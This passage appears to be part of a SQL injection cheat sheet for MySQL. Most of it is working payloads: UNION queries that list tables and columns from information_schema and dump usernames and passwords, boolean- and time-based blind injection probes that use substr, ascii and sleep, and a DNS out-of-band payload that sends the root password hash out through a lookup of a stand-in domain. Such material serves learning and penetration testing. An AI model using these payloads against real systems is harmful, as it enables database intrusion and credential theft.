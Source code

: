 ```sql
...union select 1,2,...,group_concat(table_name) from information_schema.tables where table_schema='FUCK'+--+  
// table_schema can also show with hex
```  

```sql
...union select 1,2,...,group_concat(column_name) from information_schema.columns where table_name='users'+--+
// table_schema would be better:)...
```  

```sql
1' and 1=2 union 1,2,...,group_concat(username,password) from users+--+  
// separate
1' and 1=2 union select 1,group_concat(column_name separator '*') from table_name#    // separate with *
```  

[What's in information_schema.columns?](https://dev.mysql.com/doc/refman/5.7/en/columns-table.html)  
**group_concat() is also a little trick.**

# Blind based  
result is not showed on the page and there is also no any error message.  
**True**: page shows normal.  
**False**: page shows error or no any result.  
**Boolean based**  
```sql
length(str)
substr(str,pos,len)   // index starts from 1
mid(str,pos,len)
ascii(str)    // we will get decimal, ord()
if(a,b,c)   // if a is true, it will return b, or otherwise return c
id=1' and ascii(substr((select database()),1,1))>65--+  // ascii from 32~127
// work with syntax
and (mid((select group_concat(column_name) from information_schema.columns),1,1) like 'd');
```  
boolean based depends on **whether page show things**...  

**Time based**  
```sql
id=1' and if(ascii(substr((select database()),1,1)>115),0,sleep(5))--+  // if the first char is not bigger than s, then delay 5s
```
Blind-based costs lot of time, so script is necessary for us!  

👽 **DNS injection**  
The process of bruteforce still takes much time. If we inject a domain name in our payload to force it to be parsed, we might get our data efficiently from dns log.  
MySQL:  
```php
select load_file( concat('\\\\', (select password from mysql.user where user='root' limit 1), '.www.example.com\\abc') );
```  
The limitation of the method above would be talked about in [Read file](#read-file) part.  
